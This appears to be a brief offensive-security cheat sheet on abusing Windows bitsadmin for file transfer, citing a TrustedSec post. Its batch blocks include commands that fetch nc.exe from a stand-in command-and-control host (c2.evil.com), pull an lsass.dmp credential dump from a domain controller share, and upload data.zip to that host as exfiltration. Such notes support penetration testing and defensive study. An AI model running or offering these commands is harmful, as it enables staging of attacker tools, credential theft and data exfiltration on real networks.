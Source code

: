 # BITSADMIN

## Download[^1]
* If you remove the timeout (`timeout /T 10`) , make sure to still execute `bitsadmin /complete JOB` after the job has completed.
* Advangates:
    * Can resume upon disconnection
* Disadvantes:
    * Slow
```batch
bitsadmin /create JOB & bitsadmin /addfile JOB <REMOTE_SRC> <LOCAL_DST> & bitsadmin /resume JOB & timeout /T 10 & bitsadmin /complete JOB
bitsadmin /create JOB & bitsadmin /addfile JOB <REMOTE_SRC> <LOCAL_DST> & bitsadmin /resume JOB & timeout /T 10 & bitsadmin /complete JOB
bitsadmin /create JOB & bitsadmin /addfile JOB https://c2.evil.com/nc.exe %TEMP%\nc.exe & bitsadmin /resume JOB & bitsadmin /complete JOB
bitsadmin /transfer debjob /download /priority high "\\DC01\c$\Windows\Temp\lsass.dmp" C:\Users\user\Downloads\lsass.dmp
```

## Upload
* If you remove the timeout (`timeout /T 10`) , make sure to still execute `bitsadmin /complete JOB` after the job has completed.
```batch
bitsadmin /create /upload JOB & bitsadmin /addfile JOB <REMOTE_DST> <LOCAL_SRC> & bitsadmin /resume JOB & timeout /T 10 & bitsadmin /complete JOB
bitsadmin /create /upload JOB & bitsadmin /addfile JOB https://c2.evil.com/data.zip %TEMP%\data.zip & bitsadmin /resume JOB & timeout /T 10 & bitsadmin /complete JOB
```


[^1]: [TrustedSec - BITS for Script Kiddies](https://www.trustedsec.com/blog/bits-for-script-kiddies/)
